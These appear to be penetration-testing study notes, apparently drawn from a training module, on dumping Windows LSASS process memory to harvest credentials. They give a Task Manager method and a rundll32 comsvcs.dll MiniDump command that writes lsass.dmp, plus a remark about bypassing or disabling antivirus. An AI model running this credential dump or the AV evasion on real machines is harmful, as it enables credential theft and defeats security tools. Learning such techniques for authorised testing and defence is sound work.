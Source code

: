 # Attacking LSASS

#### LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems

![](https://academy.hackthebox.com/storage/modules/147/lsassexe_diagram.png)

### Upon initial logon, LSASS will:
- Cache credentials locally in memory
- Create access tokens
- Enforce security policies
- Write to Windows security log

## Dumping LSASS Process Memory (GUI)
##### Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file
`C:\Users\loggedonusersdirectory\AppData\Local\Temp`

## With CLI
### Finding LSASS PID in cmd
```
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

or

```
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

## Creating lsass.dmp using PowerShell
#### We need elevated privs
`PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`
- Recall that most modern AV tools recognize this as malicious and prevent the command from executing. In these cases, we will need to consider ways to bypass or disable the AV tool we are facing
